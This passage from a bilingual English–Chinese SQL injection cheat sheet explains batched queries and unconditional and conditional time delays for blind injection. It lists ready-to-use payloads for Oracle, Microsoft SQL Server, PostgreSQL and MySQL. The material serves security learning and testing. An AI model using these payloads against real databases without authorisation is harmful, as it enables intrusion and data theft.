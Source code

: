You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
可以使用批处理查询连续执行多个查询。请注意，在执行后续查询时，不会将结果返回给应用程序。因此，这种技术主要用于与盲漏洞相关的漏洞，您可以使用第二个查询来触发DNS查找，条件错误或时间延迟。

```sql
Oracle	Does not support batched queries.

Microsoft	QUERY-1-HERE; QUERY-2-HERE

QUERY-1-HERE QUERY-2-HERE

PostgreSQL	QUERY-1-HERE; QUERY-2-HERE

MySQL	QUERY-1-HERE; QUERY-2-HERE
```
Note
With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.
对于MySQL，批处理查询通常不能用于SQL注入。但是，如果目标应用程序使用某些PHP或Python API与MySQL数据库进行通信，则有时可能会出现这种情况。

## Time delays
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
处理查询时，可能会导致数据库中出现时间延迟。以下内容将导致10秒的无条件时间延迟。

```sql
Oracle	    dbms_pipe.receive_message(('a'),10)

Microsoft	WAITFOR DELAY '0:0:10'

PostgreSQL	SELECT pg_sleep(10)

MySQL	    SELECT SLEEP(10)
```
## Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.
您可以测试单个布尔条件，如果条件为真，则触发时间延迟。

```sql
Oracle	    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual

Microsoft	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'

PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END

MySQL	    SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')
```
